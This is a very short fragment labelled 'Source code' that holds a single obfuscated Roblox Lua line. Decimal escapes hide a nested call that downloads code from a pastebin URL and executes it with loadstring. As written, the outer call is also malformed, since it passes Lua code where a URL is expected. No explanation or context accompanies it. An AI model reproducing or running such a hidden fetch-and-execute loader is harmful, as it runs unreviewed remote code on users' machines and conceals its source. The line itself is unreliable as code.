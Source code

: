 loadstring(game:HttpGet(('\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\118\101\78\69\67\57\67\55\39\41\44\116\114\117\101\41\41\40\41\10'),true))()
